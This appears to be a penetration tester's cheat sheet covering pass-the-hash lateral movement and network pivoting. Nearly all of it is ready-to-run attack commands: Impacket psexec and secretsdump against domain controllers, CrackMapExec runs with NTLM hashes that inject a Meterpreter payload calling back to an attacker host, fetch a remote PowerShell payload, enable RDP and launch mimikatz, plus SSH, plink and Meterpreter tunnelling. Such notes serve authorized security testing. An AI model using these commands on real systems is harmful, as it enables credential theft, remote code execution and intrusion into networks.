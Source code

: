 ﻿### Passing The Hash

Syntax examples taken mostly from this awesome blog

https://blog.ropnop.com/practical-usage-of-ntlm-hashes/

Several ways and tools you can run psexec or use hashes...

##### pth-toolkit
https://github.com/byt3bl33d3r/pth-toolkit
```
pth-winexe -U cscou/kbryant%asdfasd21341241234asdasd:23423sdfasdf1234  //ordws01.cscou.lab cmd.exe
pth-smbclient -U "AD/ADMINISTRATOR%aad3b435b51404eeaad3b435b51404ee:2[...]A" //192.168.10.100/Share
```
##### Impacket 
https://github.com/CoreSecurity/impacket
```
psexec.py Administrator:crapass@10.10.10.10
psexec.py BUFU/spice1:vallejo@10.10.10.10 
psexec.py Administrator@10.10.10.10 -hashes aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c
smbexec.py BUFU/spice1:eastbayg@10.10.10.10 (doesnt drop a binary)
wmiexec.py BUFU/blegit:valleyho@10.10.10.10
secretsdump.py -dc-ip IP AD\administrator@domain -use-vss
secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:0f49aab58dd8fb314e268c4c6a65dfc9 -just-dc PENTESTLAB/dc\$@10.0.0.1
```

##### CrackMapExec
https://github.com/byt3bl33d3r/CrackMapExec
```
crackmapexec.py 10.10.10.0/24 -d BUFU -u silverback -p g0rilla -x whoami
crackmapexec.py 10.10.10.0/24 -u tnutty -H 24cf234234908098092834234234
crackmapexec 10.10.10.10 -u Administrator -p ak47inth3fr33zer --shares
crackmapexec smb -L
crackmapexec smb -M name_module -o VAR=DATA
crackmapexec 192.168.1.100 -u Jaddmon -H 5858d47a41e40b40f294b3100bea611f -M rdp -o ACTION=enable
crackmapexec 192.168.1.100 -u Jaddmon -H 5858d47a41e40b40f294b3100bea611f -M metinject -o LHOST=192.168.1.63 LPORT=4443
crackmapexec 192.168.1.100 -u Jaddmon -H ":5858d47a41e40b40f294b3100bea611f" -M web_delivery -o URL="https://IP:PORT/posh-payload"
crackmapexec 192.168.1.100 -u Jaddmon -H ":5858d47a41e40b40f294b3100bea611f" --exec-method smbexec -X 'whoami'
crackmapexec mimikatz --server http --server-port 80
```
##### Nmap
```
nmap -sU -sS --script smb-psexec.nse --script-args=smbuser=<username>,smbpass=<password>[,config=<config>] -p U:137,T:139 <host>
```
##### Rdesktop
```
apt-get install freerdp-x11
xfreerdp /u:crap /d:win2012 /pth:HASH /v:IP
```

### Port Forwarding 

##### SOCKS Proxy
```
ssh -D8080 [user]@[host]

ssh -N -f -D 9000 [user]@[host]
-f : ssh in background
-N : do not execute a remote command
```
##### Proxychains
Config file: /etc/proxychains.conf
```
[ProxyList]
socks4 localhost 8080
```
Set the SOCKS4 proxy then proxychains whatever tool

##### Windows netsh Port Forwarding

```
netsh interface portproxy add v4tov4 listenaddress=localaddress listenport=localport connectaddress=destaddress connectport=destport

netsh interface portproxy add v4tov4 listenport=3340 listenaddress=10.1.1.110 connectport=3389 connectaddress=10.1.1.110
```

##### plink

```powershell
plink -l root -pw toor ssh-server-ip -R 3390:127.0.0.1:3389    --> exposes the RDP port of the machine in the port 3390 of the SSH Server
plink -l root -pw mypassword 192.168.18.84 -R
plink -R [Port to forward to on your VPS]:localhost:[Port to forward on your local machine] [VPS IP]
```

##### Meterpreter portfwd
 https://www.offensive-security.com/metasploit-unleashed/portfwd/
 forward remote port to local address
```
meterpreter > portfwd add –l 3389 –p 3389 –r 172.16.194.141
kali > rdesktop 127.0.0.1:3389

or

portfwd list
portfwd add -L 0.0.0.0 -l 445 -r 192.168.57.102 -p 445

or

run autoroute -s 192.168.57.0/24
use auxiliary/server/socks4a
```
##### SSH pivots from one network to another
```
ssh -D 127.0.0.1:1080 -p 22 user1@IP1
Add socks4 127.0.0.1 1080 in /etc/proxychains.conf
proxychains ssh -D 127.0.0.1:1081 -p 22 user1@IP2
Add socks4 127.0.0.1 1081 in /etc/proxychains.conf
proxychains commands target
```
##### Remote Port Forwarding
```
ssh -R 9000:localhost:8001 username@hostname
ssh -R 2222:localhost:22 username@hostname - SSH
ssh -R 2223:localhost:5902 username@hostname - VNC
autossh -M 20000 -f -R 2222:localhost:80 username@hostname
```
##### SShuttle
https://sshuttle.readthedocs.io/en/stable/usage.html

To sshuttle into an internal network and forward all traffic
```
sshuttle -r user@10.10.10.10 10.1.1.0/24 -vNH
```

##### References
https://chryzsh.gitbooks.io/pentestbook/content/port_forwarding_and_tunneling.html

https://blog.ropnop.com/

https://www.toshellandback.com/2017/02/11/psexec/

https://blog.ropnop.com/practical-usage-of-ntlm-hashes/
